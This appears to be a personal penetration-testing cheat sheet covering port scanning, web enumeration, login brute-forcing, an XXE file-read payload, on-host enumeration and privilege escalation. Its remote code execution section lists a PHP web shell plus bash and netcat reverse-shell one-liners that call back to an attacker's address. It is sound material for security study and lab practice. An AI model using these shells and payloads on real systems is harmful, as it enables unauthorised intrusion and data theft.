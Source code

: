 # Target enumeration

## Remote
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)
2. Webservers
    - Spider website (e.g. using Burp Suite Proxy without intercept)
    - Enumerate subdomains and dirs (e.g. with `gobuster`)
    - Vulnerabilities with OWASP
    - Enumerate login forms
        - `hydra -L <file> -P <file>`
    - XSS, SQL-Injection
    - XXE/XEE
        - `<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>`
    - Path traversal
        - .htpasswd
        - /etc/passwd
        - /etc/group
3. Monitor TCP/IP traffic (e.g. LDAP) `sudo tcpdump -i tun0 port 389`

## On site
1. Processes
    - `ps aux`
2. Ports
    - `ss`
    - `netstat -tunlp`
        - `-t` (TCP)
        - `-u` (UDP)
        - `-n` (No service resolution)
        - `-l` (Only listening)
        - `-p` (Process info)

    - `lsof`
3. File system
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - .ssh folder
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/
        - Inspection/Injection: `pwn`, `cutter`


# Remote code execution
1. Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - `/usr/share/webshells/php/php-reverse-shell.php`, `<?php echo system($_REQUEST['cmd']);?>`
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
    - Windows: use `nc64.exe -e cmd.exe <my ip> <port>`


# Privilege escalation
1. User permissions: `whoami`, `id`, `sudo -l` or Windows `whoami /priv`, `icacls`
2. User groups
    - `lxd`: Containers
3. Windows: `impacket-psexec`


# Password cracking
1. Use Google as Rainbow Table


# Privacy
1. Tails
2. Proxychains with TOR
